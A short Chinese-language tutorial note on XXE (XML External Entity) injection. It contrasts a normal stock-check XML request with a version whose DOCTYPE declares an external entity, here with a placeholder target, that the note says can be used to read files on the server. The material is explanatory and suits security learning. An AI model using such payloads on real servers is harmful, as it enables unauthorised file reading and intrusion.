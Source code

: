 服务器解析 XML 时, 如果启用了外部实体解析, 那么可以执行恶意的 XML 数据.

## 1. 案例

正常情况下查询 `productId=1` 的商品库存

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>
        1
    </productId>
</stockCheck>
```

注入 XXE, 读取文件 (其中 `&xxe;` 用于引用名称为 `xxe` 的外部实体)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "command"> ]>
<stockCheck>
    <productId>
        &xxe;
    </productId>
</stockCheck>
```


